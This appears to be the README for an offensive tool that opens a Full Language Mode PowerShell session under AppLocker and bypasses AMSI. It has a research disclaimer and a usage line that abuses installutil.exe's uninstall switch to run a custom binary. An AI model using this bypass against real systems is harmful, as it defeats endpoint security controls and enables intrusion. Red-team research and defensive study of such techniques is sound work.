

# Applocker & Constrained Language Mode Bypass
## Description
This tool creates a Full Language Mode Powershell session in an Applocker enabled environment. Bypassing Amsi during session creation allows code to be comfortably loaded into memory.


## Disclaimer
All information contained in this repository is intended for research and education purposes on attack techniques. It is not provided for the purpose of attacking systems, except where explicitly permitted. The author assumes no responsibility for any illegal use of this tool or misuse of the tool. Use responsibly.

## Usage
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\users\an3m0ne\FLM-Shell.exe
```
